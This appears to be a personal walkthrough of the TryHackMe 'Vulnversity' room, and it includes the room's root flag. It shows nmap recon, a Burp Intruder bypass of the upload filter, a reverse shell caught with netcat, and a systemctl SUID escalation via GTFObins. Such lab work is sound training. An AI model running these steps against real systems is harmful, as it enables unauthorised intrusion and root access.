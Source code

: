 #suid

### Vulnversity - Tryhackme - Getting Root flag only

- Initial Recon
~~~bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -A -T4 10.10.160.7                           
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 05:43 EDT
Nmap scan report for 10.10.160.7
Host is up (0.27s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a4ffcb8c8761cb5851cacb286411c5a (RSA)
|   256 ac9dec44610c28850088e968e9d0cb3d (ECDSA)
|_  256 3050cb705a865722cb52d93634dca558 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=8/18%OT=21%CT=1%CU=42338%PV=Y%DS=2%DC=T%G=Y%TM=64DF3D9
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=104%GCD=1%ISR=10C%TI=Z%CI=I%TS=8)OPS(O1=M509ST11NW6%O2=M509ST11NW6%O
OS:3=M509NNT11NW6%O4=M509ST11NW6%O5=M509ST11NW6%O6=M509ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M509NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h20m00s, deviation: 2h18m33s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-08-18T09:44:47
|_  start_date: N/A
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2023-08-18T05:44:46-04:00

TRACEROUTE (using port 110/tcp)
HOP RTT       ADDRESS
1   288.75 ms 10.18.0.1
2   292.44 ms 10.10.160.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.83 seconds

~~~

- Gobuster on port 3333 - Found /internal directory have file upload page. 
- Upload shell.php file - Unsuccessful result. 
- Use burpsuite #burpsuite to find out which php version is accepted - Intercept the traffic - forward to the intruder - in position clear $ and add $ on upload file extension - in payload seetings remove current settings and add 'php3, phtml, php4, php5, php6' - in setting, Grep - Match add 'Extension not allowed' obtained from the repeater, in redirection select 'always' - Start the attack. 
![[Pasted image 20230818185424.png]]
- Phtml extension can be uploaded, change shell.php extension to phtml, upload it, check on /uploads page, start listener and open uploaded file. Reverse shell obtained. If connection get lost then disable firewall with 'sudo ufw disable' #firewall 
~~~bash
──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.18.4.132] from (UNKNOWN) [10.10.160.7] 33220
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:43:07 up  1:01,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

- Find the SUID permission files
~~~bash
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
~~~

- Find out systemctl have the SUID privilege escalation in GTFObins. Copied code and change it as per needed. 

```
# Before 
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
```
# After
sudo install -m =xs $(which systemctl) .

TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

- Run command one by one, obtained root. (systemctl SUID, attd cat /tmp/output at last)
~~~bash
$ sudo install -m =xs $(which systemctl) .
sudo: no tty present and no askpass program specified
$ TF=$(mktemp).service
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $TF
$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.o2hXHVuQoG.service to /tmp/tmp.o2hXHVuQoG.service.
$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.o2hXHVuQoG.service to /tmp/tmp.o2hXHVuQoG.service.
$ cat /tmp/output
a58ff8579f0a9270368d33a9966c7fd5
$


TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
~~~

- Rooted Machine
